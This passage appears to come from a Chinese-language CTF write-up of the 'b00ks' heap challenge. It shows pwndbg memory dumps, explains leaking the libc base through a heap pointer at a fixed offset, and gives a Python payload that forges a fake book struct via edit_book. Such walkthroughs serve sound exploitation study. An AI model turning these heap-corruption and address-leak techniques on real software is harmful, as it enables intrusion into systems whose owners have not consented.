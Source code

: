 查看`global_book_struct_array`

```
pwndbg> x /10gx 0x555555602040
0x555555602040:	0x6161616161616161	0x6161616161616161   //author name
0x555555602050:	0x6161616161616161	0x6161616161616161
0x555555602060:	0x0000555555605160	0x0000555555605190   //book1_struct_addr    book2_struct_addr
0x555555602070:	0x0000000000000000	0x0000000000000000
0x555555602080:	0x0000000000000000	0x0000000000000000
```

查看book2_struct_addr中的内容：

```
pwndbg> x /10gx 0x0000555555605190
0x555555605190:	0x0000000000000002	0x00007ffff7fcf010  //book2_id      book2_name_ptr
0x5555556051a0:	0x00007ffff7fad010	0x0000000000021000  //book2_description_ptr  book2_description_size
0x5555556051b0:	0x0000000000000000	0x0000000000020e51  //top chunk
0x5555556051c0:	0x0000000000000000	0x0000000000000000
0x5555556051d0:	0x0000000000000000	0x0000000000000000
```

可以查看book2_name_ptr和book2_description_ptr这两个堆地址，这两个堆地址与libc的基址相关，故泄露该地址可以得到libc基地址

![](img/heap/b00ks.jpg)

可以发现book2_name_ptr相对于libc基址的offset为0x5c1010，无论是否开启地址随机化，offset始终没有发生变化，当然再不同的libc版本上就不同了

伪造book1，并且通过edit_book函数将伪造的book1写入到book1_description_ptr(0x00005555556050c0)处

```python
# fake book1_struct
payload = 'a' * 0x40 + p64(1) + p64(book2_struct_addr + 8) * 2 + p64(0xffff)
edit_book(target, 1, payload)
```

查看写入情况

```
pwndbg> x /30gx 0x00005555556050c0-0x10
0x5555556050b0:	0x0000000000000000	0x00000000000000a1
0x5555556050c0:	0x6161616161616161	0x6161616161616161      //book1_description_ptr，写入伪造的book1
0x5555556050d0:	0x6161616161616161	0x6161616161616161
0x5555556050e0:	0x6161616161616161	0x6161616161616161
0x5555556050f0:	0x6161616161616161	0x6161616161616161
0x555555605100:	0x0000000000000001	0x0000555555605198
0x555555605110:	0x0000555555605198	0x000000000000ffff      //到这结束
0x555555605120:	0x0000000000000000	0x0000000000000000
0x555555605130:	0x0000000000000000	0x0000000000000000
0x555555605140:	0x0000000000000000	0x0000000000000000      //book1_description分配的chunk到这结束
0x555555605150:	0x0000000000000000	0x0000000000000031   
0x555555605160:	0x0000000000000001	0x0000555555605020      //book1_struct_addr       
0x555555605170:	0x00005555556050c0	0x0000000000000090
0x555555605180:	0x0000000000000000	0x0000000000000031      
```